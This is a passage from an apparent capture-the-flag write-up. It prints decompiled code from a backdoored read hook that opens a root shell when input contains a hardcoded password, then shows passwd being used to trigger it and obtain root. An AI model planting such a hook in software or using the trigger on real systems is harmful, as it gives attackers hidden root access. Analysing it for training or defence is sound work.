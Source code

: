       read_libc = (code *)dlsym(0xffffffffffffffff,&read);
      read_ret = (*read_libc)((ulong)(uint)__fd,__buf,__nbytes,__buf,read_libc);
      password[0] = '2';
      password[1] = 'w';
      password[2] = 'k';
      password[3] = 'e';
      password[4] = 'O';
      password[5] = 'U';
      password[6] = '4';
      password[7] = 's';
      password[8] = 'j';
      password[9] = 'v';
      password[10] = '8';
      password[11] = '4';
      password[12] = 'o';
      password[13] = 'k';
      password[14] = '/';
      password[15] = '\0';
      backdoor = strstr((char *)__buf,password);
      if (backdoor != (char *)0x0) {
        setgid(0);
        setuid(0);
        execve("/bin/sh",(char **)0x0,(char **)0x0);
      }
      return read_ret;
    }



So it uses `dlsym` to get the real `read` function, and then calls it
with the parameters passed in. It checks if the result contains the
string "2wkeOU4sjv84ok/", and if so, it starts a shell. Otherwise, it
returns the actual return value from `read`.

When it calls the shell, it first runs `setgid(0)` and `setuid(0)`, so
as long as the process is running as root, the shell will also be
running as root.

### Shell

One SUID binary that takes input (ie, uses `read`) is `passwd`. If I
provide this string as the current password, instead of rejecting it as
wrong, it just returns a root shell:



    sysadmin@compromised:/var/lib/mysql$ passwd
    Changing password for sysadmin.
    (current) UNIX password: sh: 0: can't access tty; job control turned off
    # reset: unknown terminal type unknown
    Terminal type? screen
    # id
    uid=0(root) gid=0(root) groups=0(root),1000(sysadmin) 
